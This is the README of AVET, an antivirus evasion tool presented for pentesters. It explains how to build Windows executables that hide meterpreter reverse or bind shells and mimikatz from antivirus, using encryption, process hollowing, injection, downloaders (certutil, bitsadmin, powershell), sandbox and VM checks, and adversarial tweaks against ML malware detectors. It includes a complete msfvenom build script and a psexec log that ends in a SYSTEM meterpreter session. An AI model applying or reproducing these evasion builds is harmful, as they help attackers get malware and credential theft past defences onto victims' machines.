

# AntiVirus Evasion Tool


AVET is an AntiVirus Evasion Tool, which was developed for making life easier for pentesters and for experimenting with antivirus evasion techniques, as well as other methods used by malicious software.
For an overview of new features in **v2.4**, as well as past version increments, have a look at the **CHANGELOG** file.


## Table of Contents
- [Installation](#installation)
- [Docker](#docker)
- [AVET the easy way](#avet-the-easy-way)
- [AVET the normal way](#avet-the-normal-way)
- <details><summary>Documentation (<i>click to expand</i>)</summary>

  - [Data retrieval methods](#data-retrieval-methods)
  - [Encryption and Encoding](#encryption-and-encoding)
  - [Sandbox evasion](#sandbox-evasion)
  - [Additional command execution](#additional-command-execution)
  - [Helper tools](#helper-tools)
  - [AVET & metasploit psexec](#avet-&-metasploit-psexec)
  - [Adversarial Examples](#adversarial-examples)
  </details>
- [More](#more)


### Some features
- when running a .exe file made with msfpayload & co, the file will often be recognized by antivirus software
- AVET is an antivirus evasion tool targeting windows machines with executable files
- different kinds of input payloads can be used now: shellcode, exe and dlls
- more techniques available: shellcode/dll injection, process hollowing and more
- flexible retrieval methods for payload, decryption key, etc.
- usage as a dropper
- Chaining multiple iterations of AVET enables you to add multiple evasion layers, if necessary
- combination of techniques: download your encrypted payload via powershell, while supplying the decryption key via command line argument at execution time, and finally inject your payload into another process, choosing from multiple techniques
- basic sandbox checks
- generation of adversarial examples against static detectors based on machine learning
- execute all available build scripts with build_script_tester.py, might also be interesting for researchers for building a set of "malicious" samples using different evasion and injection techniques


### Important Note

Not all techniques will evade every AV engine. If one technique or build script does not work, please test another one.
Feel free to experiment! After all this is a toolbox - yet you should wield the hammer yourself.

## Installation

__The Installtion Instruction applies for Kali 64bit and tdm-gcc!__

You can use the setup script:
```bash
./setup.sh
```

This should automatically get you started by installing/configuring wine and installing tdm-gcc.
You'll shortly have to click through the tdm-gcc installer GUI though - standard settings should be fine.
The script will also ask if you want to install AVET's dependencies, which are needed to use some of the build scripts. The fetched dependencies will be put into separate folders next to the avet folder.


Dependencies will grab the latest releases of:
- [pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [DKMC](https://github.com/Mr-Un1k0d3r/DKMC)


If for whatever reason you want to install wine and tdm-gcc manually:
- [How to install tdm-gcc with wine](https://govolution.wordpress.com/2017/02/04/using-tdm-gcc-with-kali-2/)

## Docker

If you are not using Kali or don't want to install Metasploit on your system, you can use the Docker Container instead.
The container encapsulates Metasploit and avet and the samples will be created in your current directory.
It is also possible to use an graphical text editor like gedit.

Building the container:
```bash
sudo docker build -t avet:v0.1 .
```
Usage:
```bash
sudo docker run -it --net=host --env="DISPLAY" --volume="$HOME/.Xauthority:/root/.Xauthority:rw" -v $(pwd):/tools/avet/output avet:v0.1 /bin/bash
```
For a better experience it is recommend to alias this.
```bash
# In your .bash_profile, .bashrc or .bash_aliases

alias avet='sudo docker run -it --net=host --env="DISPLAY" --volume="$HOME/.Xauthority:/root/.Xauthority:rw" -v $(pwd):/tools/avet/output avet /bin/bash'
```


## AVET the easy way

**avet.py** is a small Python utility which was designed to assist you in using the tool.

It lists all scripts that are currently present in the build folder. After selecting one, you will be able to step through the script line by line, having the opportunity to modify the contents on the fly.

The latter is especially useful as you can define new LHOST and LPORT variables for msfvenom each time you run a build script via the fabric. 
You can define default LHOST and LPORT values in the `/build/global_connect_config.sh` file, which are used if you don't redefine.

These modifications are temporary, which means that any changes you made will not persist in the build script on disk.
The modified version is executed once, and your executable built.

<details>
<summary>Here is a quick example (<i>Click to expand</i>):</summary>

```
python3 avet.py

                       .|        ,       +
             *         | |      ((             *
                       |'|       `    ._____
         +     ___    |  |   *        |.   |' .---"|
       _    .-'   '-. |  |     .--'|  ||   | _|    |
    .-'|  _.|  |    ||   '-__  |   |  |    ||      |
    |' | |.    |    ||       | |   |  |    ||      |
 ___|  '-'     '    ""       '-'   '-.'    '`      |____
jgs~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Welcome to the avet Assistant!

0 : build_40xshikata_revhttpsunstaged_win32.sh
1 : build_50xshikata_quiet_revhttps_win32.sh
2 : build_50xshikata_revhttps_win32.sh
3 : build_asciimsf_fromcmd_revhttps_win32.sh
4 : build_asciimsf_revhttps_win32.sh
5 : build_avetenc_dynamicfromfile_revhttps_win32.sh
6 : build_avetenc_fopen_revhttps_win32.sh
7 : build_avetenc_mtrprtrxor_revhttps_win64.sh
8 : build_calcfromcmd_50xshikata_revhttps_win32.sh
9 : build_calcfrompowersh_50xshikata_revhttps_win32.sh
10 : build_checkdomain_rc4_mimikatz.sh
11 : build_cpucores_revhttps_win32.sh
12 : build_disablewindefpsh_xorfromcmd_revhttps_win64.sh
13 : build_dkmc_downloadexecshc_revhttps_win32.sh
14 : build_downloadbitsadmin_mtrprtrxor_revhttps_win64.sh
15 : build_downloadbitsadmin_revhttps_win32.sh
16 : build_downloadcertutil_revhttps_win32.sh
17 : build_downloadcurl_mtrprtrxor_revhttps_win64.sh
18 : build_downloadiexplorer_revhttps_win32.sh
19 : build_downloadpsh_revhttps_win32.sh
20 : build_downloadsocket_mtrprtrxor_revhttps_win64.sh
21 : build_downloadsocket_revhttps_win32.sh
22 : build_dynamicfromfile_revhttps_win32.sh
23 : build_fibonacci_rc4_mimikatz.sh
24 : build_fopen_mtrprtrxor_revhttps_win64.sh
25 : build_fopen_quiet_revhttps_win32.sh
26 : build_fopen_revhttps_win32.sh
27 : build_getchar_rc4_mimikatz.sh
28 : build_gethostbyname_revhttps_win32.sh
29 : build_hasvmkey_revhttps_win32.sh
30 : build_hasvmmac_revtcp_win32.sh
31 : build_hollowing_targetfromcmd_doubleenc_doubleev_revhttps_win64.sh
32 : build_hollowing_targetfromcmd_doubleenc_doubleev_revtcp_win32.sh
33 : build_injectdll_targetfromcmd_execcalc_downloadpsh_fopen_gethostbyname_win32.sh
34 : build_injectdll_targetfromcmd_execcalc_downloadpsh_fopen_gethostbyname_win64.sh
35 : build_injectshc_targetfromcmd_fopen_gethostbyname_xor_revhttps_win64.sh
36 : build_injectshc_targetfromcmd_fopen_gethostbyname_xor_revtcp_win32.sh
37 : build_kaspersky_fopen_shellrevtcp_win32.sh
38 : build_mimikatz_pe2shc_xorfromcmd_win64.sh
39 : build_pause_rc4_mimikatz.sh
40 : build_rc4_interactive_pwsh_mimikatz_win64.sh
41 : build_rc4_interactive_with_arithmetic_pwsh_mimikatz_win64.sh
42 : build_rc4enc_mimikatz_win64.sh
43 : build_sleep_rc4_mimikatz.sh
44 : build_sleepbyping_rc4_mimikatz.sh
45 : build_timedfibonacci_rc4_mimikatz.sh
46 : buildsvc_20xshikata_bindtcp_win32.sh

Which Script would you like to configure and build?
Enter the corresponding number -> 43

DESCRIPTION :
# RC4-encrypt the payload with a static, preset key.
# Here, the mimikatz executable is used as payload, converted into shellcode format by pe_to_shellcode.
# pe_to_shellcode is written by Hasherezade:
# https://github.com/hasherezade/pe_to_shellcode

# This script expects the Mimikatz executable to be at input/mimikatz.exe
# and the pe_to_shellcode executable to reside in a folder parallel to avet: ../pe_to_shellcode/pe2shc.exe

Configure the Build Script

# enable debug output
-> enable_debug_print

# generate key file with preset key
-> generate_key preset aabbccdd1122

Do you want to add sandbox evasions? [y/N]
-> N

Executable will be created Shortly please wait.

*** ============================================= ***

         .==,_                                          
        .===,_`\\                                        
      .====,_ ` \\      .====,__                         
---     .==-,`~. \\           `:`.__,                    
 ---      `~~=-.  \\           /^^^     MEEP MEEP        
   ---       `~~=. \\         /                          
                `~. \\       /                           
                  ~. \\____./                            
                    `.=====)                            
                 ___.--~~~--.__                         
       ___\\.--~~~              ~~~---.._|/              
       ~~~\\\"                             /              

 ________  ___      ___ _____  __________  
|\   __  \|\  \    /  /|\  __\ |\___   __\ 
\ \  \|\  \ \  \  /  / | \ \__ \|__|\  \_| 
 \ \   __  \ \  \/  / / \ \  _\    \ \  \  
  \ \  \ \  \ \    / /   \ \ \___   \ \  \ 
   \ \__\ \__\ \__/ /     \ \____\   \ \__\
    \|__|\|__|\|__|/       \|_____|   \|__|

*** ============================================= ***

Reading module from: input/mimikatz.exe
[WARNING] This is a console application! The recommended subsystem is GUI.
[+] Saved as: input/sc_raw.txt
Starting RC4 encoder...
Reading payload from file input/sc_raw.txt, expecting raw format.
payload size in bytes is 1309884
Reading key from file input/key_raw.txt, expecting raw format.
Key length in bytes is 6
Applying RC4 algorithm
Writing payload to file input/sc_enc_raw.txt

# The decryption key is aabbccddee if it has not been changed.
# You need to provide the decryption key as 2nd command line argument.
# Call generated executable on target like:
# $ rc4enc_mimikatz_win64.exe [your mimikatz arguments, probably 'coffee']  [decryption key]


Your executable should be in the output folder!
```
</details>

## AVET the normal way

Of course it is possible to run all commands step by step from command line. However, in the "build" folder you will find preconfigured build scripts for relevant use cases. 
The build scripts themselves are written so as they have to be called from within the avet directory:
```bash
kali@kali:~/tools/avet$ ./build/build_fopen_mtrprtrxor_revhttps_win64.sh
```

You can define default LHOST and LPORT values for metasploit payloads in the `/build/global_connect_config.sh` file, which are used if you don't redefine.


### Usage examples

Generate a 32-bit process hollowing executable in two steps (as in build_hollowing_targetfromcmd_doubleenc_doubleev_revhttps_win32.sh):

First, generate the hollowing payload with AVET:
- generate meterpreter/reverse_https 32-bit shellcode
- the meterpreter shellcode will be XOR encrypted with a 5-byte preset key
- the shellcode will be compiled into the generated executable
- fopen and gethostbyname sandbox evasion environmental checks will be made before executing the shellcode
	
Second, build the "dropper" executable that delivers the first step payload via hollowing:
- statically compile the first step payload into the executable
- the payload will be XOR encrypted with a different 5-byte preset key
- again, fopen and gethostbyname sandbox evasion environmental checks will be made before hollowing
- the hollowing target PID will be delivered via command line argument on execution time
	
So you get a two-layer environmental-checked and encrypted meterpreter payload, hollowed into a process of your choice.
While the settings in the build script are mostly for demonstration purposes, there is a lot of flexibility to customize your generated executable by making simple modifications to the build script.

You could switch out data retrieval methods: Instead of statically compiling most data into the executable, you could download your hollowing payload via powershell, download the decryption key via sockets, use different encryption or environmental checks, etc.

Or try to add more evasion layers by doing a third build iteration.
Or switch out the payload. Want to use Mimikatz instead? Convert it into shellcode via https://github.com/hasherezade/pe_to_shellcode, and change the payload in the build script.

Of course, you can also design more minimalistic builds, like executing unencrypted shellcode with only one environmental check, or maybe 50 iterations of shikata are enough to reach your goal?
Choose/modify the build scripts, suiting your needs.


### Build scripts

Below, find a list of all currently shipped build scripts. The names should hint at each script's functionality.
For detailed information, consider the comments inside the scripts.
Feel free to modify/write your own build scripts to build your custom executable!

<details>
<summary><i>Click to expand</i></summary>

  ```
  build_40xshikata_revhttpsunstaged_win32.sh
  build_50xshikata_revhttps_win32.sh
  build_50xshikata_quiet_revhttps_win32.sh
  build_asciimsf_fromcmd_revhttps_win32.sh
  build_asciimsf_revhttps_win32.sh
  build_avetenc_dynamicfromfile_revhttps_win32.sh
  build_avetenc_fopen_revhttps_win32.sh
  build_avetenc_mtrprtrxor_revhttps_win64.sh
  build_calcfromcmd_50xshikata_revhttps_win32.sh
  build_calcfrompowersh_50xshikata_revhttps_win32.sh
  build_cpucores_revhttps_win32.sh
  build_checkdomain_rc4_mimikatz.sh
  build_disablewindefpsh_xorfromcmd_revhttps_win64.sh
  build_dkmc_downloadexecshc_revhttps_win32.sh
  build_downloadbitsadmin_mtrprtrxor_revhttps_win64.sh
  build_downloadbitsadmin_revhttps_win32.sh
  build_downloadcertutil_revhttps_win32.sh
  build_downloadcurl_mtrprtrxor_revhttps_win64.sh
  build_downloadiexplorer_revhttps_win32.sh
  build_downloadpsh_revhttps_win32.sh
  build_downloadsocket_mtrprtrxor_revhttps_win64.sh
  build_downloadsocket_revhttps_win32.sh
  build_dynamicfromfile_revhttps_win32.sh
  build_fibonacci_rc4_mimikatz.sh
  build_fopen_mtrprtrxor_revhttps_win64.sh
  build_fopen_quiet_revhttps_win32.sh
  build_fopen_revhttps_win32.sh
  build_getchar_rc4_mimikatz.sh
  build_gethostbyname_revhttps_win32.sh
  build_hasvmkey_revhttps_win32.sh
  build_hasvmmac_revtcp_win32.sh
  build_hollowing_targetfromcmd_doubleenc_doubleev_revhttps_win64.sh
  build_hollowing_targetfromcmd_doubleenc_doubleev_revtcp_win32.sh
  build_injectdll_targetfromcmd_execcalc_downloadpsh_fopen_gethostbyname_win32.sh
  build_injectdll_targetfromcmd_execcalc_downloadpsh_fopen_gethostbyname_win64.sh
  build_injectshc_targetfromcmd_fopen_gethostbyname_xor_revhttps_win64.sh
  build_injectshc_targetfromcmd_fopen_gethostbyname_xor_revtcp_win32.sh
  build_kaspersky_fopen_shellrevtcp_win32.sh
  build_mimikatz_pe2shc_xorfromcmd_win64.sh
  build_pause_rc4_mimikatz.sh
  build_rc4_interactive_pwsh_mimikatz_win64.sh
  build_rc4_interactive_with_arithmetic_pwsh_mimikatz_win64.sh
  build_rc4enc_mimikatz_win64.sh
  build_sleep_rc4_mimikatz.sh
  build_sleepbyping_rc4_mimikatz.sh
  build_timedfibonacci_rc4_mimikatz.sh
  buildsvc_20xshikata_bindtcp_win32.sh
  ```
</details>


## Documentation

### Data retrieval methods
These methods are compatible with all of AVET's data sources and can be used as such in the build script.

A few examples:
```
# Compiles the command 'calc.exe' statically into the executable, which will then be executed via cmd at sample startup.
set_command_source static_from_here 'calc.exe'
set_command_exec exec_via_cmd

# Download 64-bit shellcode via powershell, and execute. 
set_payload_source download_powershell
set_payload_execution_method exec_shellcode64

# Download XOR decryption key into memory. (Server to download from is always specified via first command line argument on execution). Decode the payload.
set_key_source download_socket
set_decoder xor

# Retrieves the tuple (target PID, dll path) from command line on execution
set_payload_info_source from_command_line_raw
set_payload_execution_method inject_dll
```
If features are skipped/not used, you have to specify NOP-like behavior instead:
```
set_command_source no_data
set_command_exec no_command
```

#### static_from_file
The data is retrieved from a file and is statically compiled into the generated executable.
For this to work, the data must be provided as a c-style array at compilation time, like
```
unsigned char buf[] = "\x00\x11\x22\x33";
```

#### static_from_here
The data is statically compiled into the generated executable,
retrieved from the specified argument in the build script.

#### dynamic_from_file
The data is read from a file at run time.

#### from_command_line_hex
Retrieves data from a "11aabb22.." format hex string (from the command line).

#### from_command_line_raw
Retrieves data from a command line argument. The given ASCII string is interpreted as raw byte data.

#### download_certutil
Downloads data from a specified URI, using ```certutil.exe -urlcache -split -f```.
Drops the downloaded file to disk before reading the data.

#### download_curl
Downloads the data using curl.
Drops the downloaded file to disk before reading the data.

#### download_internet_explorer
Downloads data from a specified URL, using Internet Explorer.
Drops the downloaded file to disk before reading the data.

#### download_powershell
Downloads data from a specified URI via powershell.
Drops the downloaded file to disk before reading the data.

#### download_socket
Downloads the data from a specified URI, using sockets.
Data is read directly into memory, no file is dropped to disk.

#### download_bitsadmin
Downloads the data using the BITSAdmin Windows utility.
Drops the downloaded file to disk before reading the data.


### Payload execution methods
How to execute/deliver the payload. The injection/hollowing methods require additional information about the injection target, which can be given via ```set_payload_info_source <the_info>``` (see data retrieval methods).

#### exec_shellcode
Executes 32-bit shellcode with a C function binding.

#### exec_shellcode64
Executes 64-bit shellcode with a C function binding and VirtualProtect.

#### exec_shellcode_ASCIIMSF
Executes ASCIIMSF encoded shellcode via ```call eax```.

#### hollowing32
Instanciates a new process, cuts out the original image and hollows the given payload into the new process.
The payload is a 32-bit executable image. Works on 32-bit targets.

#### hollowing64
Same as hollowing32, but using 64-bit PE payloads for 64-bit target processes.

#### inject_dll
Injects a dll into a target process, using ```CreateRemoteThread```.
Injection works for 32-bit payloads into 32-bit processes, and 64-bit payloads into 64-bit processes, respectively.

#### inject_shellcode
Injects shellcode into a target process, using ```CreateRemoteThread```.
Injection works for 32-bit shellcode into 32-bit processes, and 64-bit shellcode into 64-bit processes, respectively.


### Encryption and Encoding
AVET provides encoders for each scheme, which can be applied on the payload before compilation/delivery.
On execution, the specified decoder then again deobfuscates the payload at runtime.

Here is an RC4 example, where the decryption key is retrieved from the command line in hex format at execution time:
```
generate_key preset aabbccddee input/key_raw.txt
encode_payload rc4 input/shellcode_raw.txt input/shellcode_enc_raw.txt input/key_raw.txt
set_key_source from_command_line_hex
set_decoder rc4
```

You can also skip the encoding feature by not further encoding the shellcode, and setting:
```
set_key_source no_data
set_decoder none
```

#### xor
Rolling XOR, supporting multi-byte keys.

#### avet
Custom encoding, reinterpreting the ASCII format.

#### rc4
RC4 encryption/decryption, with flexible key length.


### Debugger and Sandbox evasion
These are environmental checks that are performed before eventual encoding and payload execution.
If an unpleasant execution environment is detected (e.g. an AV sandbox), execution stops.

Currently, you can arbitrarily queue up to 10 checks. Using the same technique multiple times is supported.
The queue limit *EVASION_ARRAY_SIZE* can however be easily modified in *avet.c*.

#### is debugger present
Check with isDebuggerPresent() function if a debugger is present.
Exit if true.
```
add_evasion is_debugger_present
```

#### sleep
Sleep for certain time before execution. The duration(in Seconds) can be specified in the build script, like

```
# sleep for 3 seconds
add_evasion evasion_by_sleep 3
```

#### sleep by ping
Halt execution of the program for specified seconds by invoking a timed ping command against localhost.
The program pings once each second.
```
add_evasion sleep_by_ping 4
```

#### check fast forwarding
Check if sandbox utilize fast forwarding to reduce heuristic check time. Local time and sleep is used.
```
add_evasion check_fast_forwarding
```

#### get tickcount
Check if sandbox utilize fast forwarding to reduce heuristic check time. Uptime and sleep is used.
```
add_evasion get_tickcount
```

#### Username
Get username and compare with given username. Exit if it does not match.

```
add_evasion has_username 'IEUser'
```

#### Messagebox
Spawn simple Messagebox before execution. If Arithmetic is not solved correctly, the program exits.
```
add_evasion interaction_msg_box
```

#### getchar
Wait until input is delivered using getchar.
```
add_evasion interaction_getchar
```

#### system pause
Execute system("pause"), causing the spawned cmd (and our main process) to wait for any keypress.
```
add_evasion interaction_system_pause
```

#### fopen
Checks for the existence of a file. If not found, stop execution.
The file name can be specified in the build script, like
```
add_evasion fopen_sandbox_evasion 'c:\\windows\\system.ini'
```

#### bios info
Checks if it is possible to fetch SMBIOS firmware table. Stop execution if not.

```
add_evasion get_bios_info
```

#### gethostbyname
Try to resolve a hostname of your choice. If gethostbyname returns unequals NULL, stop execution.
The hostname to check against can be specified in the build script, like
```
add_evasion gethostbyname_sandbox_evasion 'testdomain.com'
```

#### get_cpu_cores
Checks number of CPU cores on the target. If the number is lower than the specified value, stop execution.
```
add_evasion get_cpu_cores 2
```

#### has_vm_mac
Checks for vendor-specific MAC prefixes. If any identified, stop execution.
```
add_evasion has_vm_mac
```

#### has_vm_regkey
Checks for vendor-specific registry keys. If any identified, stop execution.
```
add_evasion has_vm_regkey
```

#### hide_console
Not really an evasion technique, but hides your console window ;)
```
add_evasion hide_console
```

#### Installation Date
Fetch Installation date of Windows and compare it to the specified one. If the dates do not match, stop execution. The date needs to be specified in format dd/mm/yyyy.

```
add_evasion get_install_date '24/11/2007'
```

#### Number of Processes
Count the number of running Processes. If the number of the processes is smaller than given threshold, stop execution.

```
add_evasion get_num_processes 50
```

#### Standard Browser
Read Registry Key to get the default Browser. If the Browser does not match with given value, stop execution. Possible values are  MSEdgeHTM, Firefox or ChromeHTML.

```
add_evasion get_standard_browser 'Firefox'
```

#### Domain
Queries the DNS domain the target is in.
If the target is not in the expected domain as specified, the program exits.
```
add_evasion get_computer_domain 'domain.com'
```

#### Computation
Fibonacci

Compute specified iterations of the Fibonacci series.
Will likely produce false results for greater n due to integer boundaries.
```
# 10 iterations
add_evasion computation_fibonacci 10
```

Timed Fibonacci

Stops Fibonacci computations after approximately specified seconds.
```
# Stops computation after 20 seconds
add_evasion computation_timed_fibonacci 20
```


#### Folders and more
Check if Artifact exists, stop execution if not. Paths must be in Unix style.

Background wallpaper:
```
add_evasion has_background_wp
```


Check for folder:
```
add_evasion has_folder 'C:/Users/user/Downloads/'
```

Check for Public Desktop:
```
add_evasion has_public_desktop
```

Check for Recycle Bin
```
add_evasion has_recycle_bin
```

Check for recent file folder
```
add_evasion has_recent_files
```

Check for network drive
```
add_evasion has_network_drive
```


### Additional command execution
Grants you the ability to execute an additional cmd/powershell payload directly after the eventual sandbox evasion functions.
The payload source is compatible with AVET's data retrieval methods.

The following example downloads a powershell payload via BITSAdmin: 
```
set_command_source download_bitsadmin
set_command_exec exec_via_powershell
```


### Helper tools

#### data_raw_to_c
Takes raw data as input from a file, converts it into C-array format and writes output to another file.
This aids in providing the correct format for the static_from_file data retrieval method.

#### generate_key
Key generation utility. Generates either a (non-cryptographically) random key or takes a preset key as input,
and outputs the raw key data into a specified file.
This aids in providing key material for the AVET encryption feature.

#### sh_format
Utility from AVET 1.3 that performs AVET encoding.


## AVET & metasploit psexec

AVET is compatible to metasploit's psexec module. For that, the generated executable needs to be compiled as a Windows Service, which is implemented by using *avetsvc.c*. Consider the corresponding example build script

*build_svc_20xshikata_bindtcp_win32.sh*:

```
#!/bin/bash          
# Designed for use with msf psexec module!

# print AVET logo
cat banner.txt

# include script containing the compiler var $win32_compiler
# you can edit the compiler in build/global_win32.sh
# or enter $win32_compiler="mycompiler" here
. build/global_win32.sh

# import global default lhost and lport values from build/global_connect_config.sh
. build/global_connect_config.sh

# override connect-back settings here, if necessary
LPORT=$GLOBAL_LPORT

# make meterpreter bind payload, encoded 20 rounds with shikata_ga_nai
msfvenom -p windows/meterpreter/bind_tcp lport=$LPORT -e x86/shikata_ga_nai -i 20 -f raw -a x86 --platform Windows > input/sc_raw.txt

# import feature construction interface
. build/feature_construction.sh

# add evasion techniques
add_evasion fopen_sandbox_evasion 'c:\\windows\\system.ini'
add_evasion gethostbyname_sandbox_evasion 'this.that'

# generate key file
generate_key preset aabbcc12de input/key_raw.txt

# encode shellcode
encode_payload xor input/sc_raw.txt input/scenc_raw.txt input/key_raw.txt

# array name buf is expected by static_from_file retrieval method
./tools/data_raw_to_c/data_raw_to_c input/scenc_raw.txt input/scenc_c.txt buf

# no command preexec
set_command_source no_data
set_command_exec no_command

# set shellcode source
set_payload_source static_from_file input/scenc_c.txt

# convert generated key from raw to C into array "key"
./tools/data_raw_to_c/data_raw_to_c input/key_raw.txt input/key_c.txt key

# set key source
set_key_source static_from_file input/key_c.txt

# set payload info source
set_payload_info_source no_data

# set decoder
set_decoder xor

# set shellcode binding technique
set_payload_execution_method exec_shellcode

# enable debug printing
enable_debug_print to_file C:/avetdbg.txt

# compile as service
$win32_compiler -o output/service.exe source/avetsvc.c -lws2_32
strip output/service.exe

# cleanup
cleanup_techniques
```

And on the metasploit side:
```
msf exploit(psexec) > use exploit/windows/smb/psexec
msf exploit(psexec) > set EXE::custom /root/tools/ave/pwn.exe
EXE::custom => /root/tools/ave/pwn.exe
msf exploit(psexec) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf exploit(psexec) > set rhost 192.168.116.183
rhost => 192.168.116.183
msf exploit(psexec) > set smbuser dax
smbuser => dax
msf exploit(psexec) > set smbpass test123
smbpass => test123
msf exploit(psexec) > set lport 8443
lport => 8443
msf exploit(psexec) > run

[*] 192.168.116.183:445 - Connecting to the server...
[*] Started bind handler
[*] 192.168.116.183:445 - Authenticating to 192.168.116.183:445 as user 'dax'...
[*] Sending stage (957487 bytes) to 192.168.116.183
[*] 192.168.116.183:445 - Selecting native target
[*] 192.168.116.183:445 - Uploading payload...
[*] 192.168.116.183:445 - Using custom payload /root/tools/avepoc/a.exe, RHOST and RPORT settings will be ignored!
[*] 192.168.116.183:445 - Created \mzrCIOVg.exe...
[+] 192.168.116.183:445 - Service started successfully...
[*] 192.168.116.183:445 - Deleting \mzrCIOVg.exe...
[-] 192.168.116.183:445 - Delete of \mzrCIOVg.exe failed: The server responded with error: STATUS_CANNOT_DELETE (Command=6 WordCount=0)
[*] Exploit completed, but no session was created.
msf exploit(psexec) > [*] Meterpreter session 4 opened (192.168.116.142:33453 -> 192.168.116.183:8443) at 2017-05-27 18:47:23 +0200

msf exploit(psexec) > sessions

Active sessions
===============

Id Type Information Connection
-- ---- ----------- ----------
4 meterpreter x86/windows NT-AUTORIT_T\SYSTEM @ DAX-RYMZ48Z3EYO 192.168.116.142:33453 -> 192.168.116.183:8443 (192.168.116.183)

msf exploit(psexec) > sessions -i 4
[*] Starting interaction with 4...

meterpreter > sysinfo
Computer : DAX-RYMZ48Z3EYO
OS : Windows XP (Build 2600, Service Pack 3).
Architecture : x86
System Language : de_DE
Domain : ARBEITSGRUPPE
Logged On Users : 2
Meterpreter : x86/windows
```
## Adversarial Examples
Adversarial examples are specifically crafted inputs with the purpose of leading machine learning models to misclassification.

To use this method, please create a virtual environment and install the needed dependencies from `requirements.txt`.

### Practical Manipulations
Five functionality-preserving manipulations for PE files are available:



To apply the practical manipulation to the malware with random bytes injected, use the `gen_adversarial_exe` command followed by name of the practical manipulation and the path to the file as parameters.
Available manipulations are `full_dos`, `extend`, `shift`, `padding`, `section_injection`.

For example:
```sh
gen_adversarial_exe section_injection output/rc4enc_mimikatz_adversarial_win64.exe
```

### Genetic Optimizing
Instead of injecting random content, it is possible to optimize the content, to achieve higher probability of evasion.
The optimizer extracts benign sections from goodware and uses a genetic algorithm to optimize the injected content.
The content is optimized against MalConv, which is a static machine learning-based detector based on a convolutional neural network.
The used MalConv implementation is from the [SecML Malware](https://github.com/pralab/secml_malware) library.

Goodware is required and should be put into the `input/goodware_samples` folder.
The [DikeDataset](https://github.com/iosifache/DikeDataset) for example is a good source to get benign executable files. The more, the better, but 100 is sufficient for testing purposes.

To use the optimizer, use the `$genetic_optimizer` command:
```sh
$genetic_optimizer -pm $practical_manipulation -p $population_size output/rc4enc_mimikatz_adversarial_win64.exe
```
Possible Options:
```
-p, --population_size, default=50
-e, --elitsm, default=10
-i, --iteration, default=10
-pr, --penalty_regularizer, default=1e-6
-ss, --section_size, default=10
-pm, --practical_manipulation, default=section_injection
```

More about adversarial examples, genetic optimizing and MalConv can be read here:
- [Adversarial EXEmples: A Survey and Experimental Evaluation of Practical Attacks on Machine Learning for Windows Malware Detection](https://arxiv.org/abs/2008.07125)
- [Functionality-preserving Black-box Optimization of Adversarial Windows Malware](https://arxiv.org/abs/2003.13526)
- [Malware Detection by Eating a Whole EXE](https://arxiv.org/abs/1710.09435)


## More
---

For basics about antivirus evasion, AVET & more information have a look here (most for version 1.3): 
- [https://govolution.wordpress.com/2018/08/07/paper-avet-blackhat-usa-arsenal-2018/](https://govolution.wordpress.com/2018/08/07/paper-avet-blackhat-usa-arsenal-2018/)
- [https://govolution.wordpress.com/2017/06/11/avet-video/](https://govolution.wordpress.com/2017/06/11/avet-video/)
- [https://govolutionde.files.wordpress.com/2014/05/avevasion_pentestmag.pdf](https://govolutionde.files.wordpress.com/2014/05/avevasion_pentestmag.pdf)
- [https://deepsec.net/docs/Slides/2014/Why_Antivirus_Fails_-_Daniel_Sauder.pdf](https://deepsec.net/docs/Slides/2014/Why_Antivirus_Fails_-_Daniel_Sauder.pdf)
- [https://twitter.com/DanielX4v3r](https://twitter.com/DanielX4v3r)
- [https://github.com/govolution/avetosx](https://github.com/govolution/avetosx)
- [https://github.com/tacticaljmp](https://github.com/tacticaljmp)
- [https://github.com/Mr-Un1k0d3r/DKMC](https://github.com/Mr-Un1k0d3r/DKMC)
- [https://github.com/m0n0ph1/Basic-File-Crypter](https://github.com/m0n0ph1/Basic-File-Crypter)
- [https://github.com/hasherezade/pe_to_shellcode](https://github.com/hasherezade/pe_to_shellcode)
- [https://github.com/hasherezade/demos/](https://github.com/hasherezade/demos/)
- [https://github.com/a0rtega/pafish](https://github.com/a0rtega/pafish)
- [https://danielsauder.com](https://danielsauder.com)

